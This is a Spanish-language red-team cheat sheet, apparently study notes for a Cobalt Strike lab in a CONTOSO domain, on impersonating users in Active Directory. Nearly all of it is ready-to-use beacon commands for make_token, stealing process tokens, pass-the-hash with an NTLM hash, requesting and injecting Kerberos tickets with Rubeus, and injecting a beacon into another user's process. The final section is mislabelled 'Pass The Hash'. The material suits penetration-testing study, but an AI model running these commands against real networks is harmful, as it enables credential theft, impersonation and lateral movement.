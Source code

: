 ### 🛠️ 1. **Make Token (usando contraseña)**

> Si lo usas **sin** contraseña es solo para que a nivel de red parezcas ese usuario, como por ejemplo hacer pass the ticket necesitas tambien parecer ese usuario a nivel red.

```powershell
beacon> make_token CONTOSO\rsteel Passw0rd!

beacon> rev2self
```

### 🕵️ 2. **Steal Token (desde proceso de otro usuario)**

>**Se roba un token activo** de un proceso ya iniciado por otra cuenta.
> **Requiere integridad alta** (ADMIN/SYSTEM).

```powershell
beacon> ps

beacon> steal_token ID

beacon> rev2self
```

###  3. **Pass The Hash**

```powershell
beacon> pth CONTOSO\rsteel fc525c9683e8fe067095ba2ddc971889
```

###  4. **Pass The Ticket**

### 🎫 **Solicitud de TGTs**

- Si tienes el **hash NTLM** o clave AES de un usuario, puedes pedir su TGT legítimamente.
- ⚠️ El uso de hash NTLM devuelve tickets RC4 → no recomendado.
- ✅ Preferible usar clave **AES256** (más segura).

```powershell
beacon> execute-assembly C:\Tools\Rubeus.exe asktgt /user:rsteel /domain:CONTOSO.COM /aes256:<clave> /nowrap
```

🧪 **Inyección de TGTs en sesiones**


```powershell
beacon> make_token CONTOSO\rsteel FakePass

beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\notepad.exe /username:rsteel /domain:CONTOSO.COM /password:FakePass /ticket:[TGT]

beacon> steal_token PID
```

4. Para eliminar tickets:

```powershell
beacon> kerberos_ticket_purge
beacon> rev2self
```


###  5. **Pass The Hash**

> Listamos procesos con  *ps* y si vemos un proceso que ejecuta otro usuario inyectamos el beacon.

```powershell
beacon> ps #**process_browser** si quieres con interfaz

beacon> inject ID x64 http
```
